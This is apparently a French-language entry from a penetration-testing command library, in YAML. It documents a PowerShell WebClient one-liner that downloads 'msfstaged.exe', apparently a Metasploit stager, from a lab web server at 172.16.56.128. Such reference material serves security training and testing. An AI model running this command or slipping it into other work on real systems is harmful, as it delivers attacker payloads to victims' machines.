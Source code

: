 ```yaml
---
description: |
  (New-Object Net.WebClient).DownloadFile est une commande PowerShell qui utilise la classe .NET WebClient pour télécharger un fichier depuis le serveur et l'enregistrer dans un répertoire local.

  Command Reference:

  	Webserver: http://172.16.56.128:8999/msfstaged.exe

  	File name: msfstaged.exe

command: |
  (New-Object Net.WebClient).DownloadFile('http://172.16.56.128:8999/msfstaged.exe', 'msfstaged.exe')
items:
  - Shell
OS:
  - Windows
  - Approved-tool
attack_types:
  - General
references:
  - https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-7.0
  - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters
---
```

